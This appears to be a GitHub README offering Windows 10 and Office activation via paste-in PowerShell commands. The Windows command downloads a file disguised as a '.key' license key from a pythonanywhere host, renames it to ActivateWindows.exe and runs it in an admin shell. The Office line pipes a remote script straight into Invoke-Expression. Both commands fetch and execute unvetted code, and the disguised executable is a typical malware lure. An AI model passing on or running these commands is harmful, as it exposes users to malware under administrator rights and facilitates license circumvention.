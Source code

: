 
## ⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native [ Windows PowerShell (Admin) ].

###### To activate Windows 10 copy and paste the command in [ Windows PowerShell (Admin) ].


## ATTENTION ⚡ Copy the complete command ⚡
> `Invoke-WebRequest -Uri https://KMSConnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\ActivateWindows.exe; Start-Process $env:TEMP\ActivateWindows.exe`


<!--
**activate-windows/activate-windows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

## ACTIVATE OFFICE
`irm https://get.activated.win | iex`

